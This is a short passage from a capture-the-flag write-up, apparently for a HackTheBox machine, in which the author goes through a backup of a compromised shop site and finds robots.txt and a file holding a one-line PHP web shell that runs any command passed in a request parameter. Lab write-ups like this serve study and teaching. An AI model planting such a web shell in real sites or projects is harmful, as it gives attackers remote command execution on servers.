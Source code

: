It seemed like a backup of the whole file structure of the site. There definitely had to be some interesting information in here, but there was a lot to go through. After searching through the files for awhile, it looked like the site had been compromised at some point, since there was a PHP backdoor included in the backup.

```text
┌──(zweilos㉿kali)-[~/htb/compromised/shop]
└─$ cat robots.txt                                  
User-agent: *
Allow: /
Disallow: */cache/*
Sitemap: /feeds/sitemap.xml

┌──(zweilos㉿kali)-[~/htb/compromised/shop]
└─$ cat .sh.php    
<?php system($_REQUEST['cmd']); ?>
```

The `robots.txt` and `sitemap.xml` did not exist on the live site, perhaps they were removed after the site was compromised?

![](/assets/img/7-no-robots.png)
